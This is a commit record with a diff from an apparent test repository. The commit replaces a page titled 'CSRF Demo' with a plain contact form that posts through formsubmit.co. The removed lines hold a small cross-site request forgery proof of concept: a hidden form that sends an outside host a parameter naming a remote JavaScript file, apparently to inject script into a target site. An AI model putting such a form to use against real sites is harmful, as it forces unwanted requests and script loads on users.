

Before and after one commit to pamazanya228/test, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,26 +2,44 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>CSRF Demo</title>
+    <title>Contact Form</title>
 </head>
 <body>
+    <h1>Contact Form</h1>
+    <form id="contactForm">
+        <label for="name">Name:</label>
+        <input type="text" id="name" name="name" required><br>
 
+        <label for="email">Email:</label>
+        <input type="email" id="email" name="email" required><br>
 
-<form action="https://mrcl.wptestprev.icu" method="GET" id="csrfForm">
-    <input type="hidden" name="script" value="https://plugin-shop-mvp.myshopify.com/cdn/shop/t/1/assets/test.js">
-    <input type="submit" value="Відправити форму">
-</form>
+        <label for="message">Message:</label>
+        <textarea id="message" name="message" required></textarea><br>
 
-<script>
-    // Слухаємо подію "submit" для форми
-    document.getElementById("csrfForm").addEventListener("submit", function(event) {
-        console.log("Форма відправлена!");
-        // Якщо ви не хочете відправляти форму дійсно (тільки для перевірки), розкоментуйте наступний рядок:
-        // event.preventDefault();
-    });
-</script>
+        <button type="button" onclick="submitForm()">Submit</button>
+    </form>
 
+    <script>
+        function submitForm() {
+            const form = document.getElementById('contactForm');
+            const formData = new FormData(form);
+
+            fetch('https://formsubmit.co/ajax/qqslovinskiy@gmail.com', {
+                method: 'POST',
+                body: formData
+            })
+            .then(response => response.json())
+            .then(data => {
+                console.log('Success:', data);
+                alert('Message sent successfully!');
+                form.reset(); // Reset the form after successful submission
+            })
+            .catch(error => {
+                console.error('Error:', error);
+                alert('Error submitting message. Please try again later.');
+            });
+        }
+    </script>
 </body>
 </html>
```
